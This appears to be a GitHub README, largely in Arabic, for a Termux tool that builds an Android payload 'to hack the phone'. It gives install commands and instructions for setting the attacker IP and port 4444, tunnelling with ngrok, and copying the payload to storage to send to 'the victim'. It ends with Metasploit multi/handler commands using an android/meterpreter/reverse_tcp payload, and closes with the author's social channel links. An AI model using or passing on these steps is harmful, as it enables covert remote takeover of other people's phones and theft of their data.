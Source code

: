 # Payloadalsharabi
Create a payload and hack the phone


# تثبيت الاداة 

pkg update -y

pkg upgrade -y

pkg install git -y


 pkg install python -y

pkg install python2 -y

pkg install bash -y


git clone https://github.com/sadamshr3be/Payloadalsharabi

cd Payloadalsharabi

chmod +x *

bash Payloadalsharabi.sh

#التقاط الصورة

<img src="https://raw.githubusercontent.com/sadamshr3be/Payloadalsharabi/main/Capture%2B_2021-08-12-13-44-44.png" width="257px" height="200px"/>


شغل الاداة وكتب رقم. 1 وبعد ذالك اكتب 2رقم ip الخاص في جًهآآزِگ

3 اكتب البور 4444 
# 4 اكتب اسم Payload
وبعد ذالك افتح نافذة جديد  وشغل اداة نيجروك وفتح البور في 

./ngrok tcp 4444
وبعد ذالك ارجع الي الاداة
وضغط انتر ونتظر حتى يتم إنشاء Payload

وبعد الانشاء راح ينقل Payload الي الصفحة الرئيسية تبع termux

أإأذأإأ ارت ان تنقل Payload الي الذاكرة الخارجية وارساله الي الضحيه

اكتب 
mv هنا الاسم الباليود /sdcard

وبعد ذالك 
فتح نافذة جديد وتشغل الميتاسبلويت

وتكتب ماتفتتح اكتبوا الاوامر هاذي↓↓

→ use exploit/multi/handler 

→ set payload android/meterpreter/reverse_tcp

→ set lhost  رح تحط هنا الايبي

# قناتي علـّۓ. اليوتيوب 

https://youtube.com/channel/UCGmfv3D0tcKvHp8Tolf6Yqw

# قناتي على التلجرام 

https://t.me/termuxalsharabi
# المدونه. 

https://sadamalsharabi.blogspot.com

# بقلم صدام الشرعبي





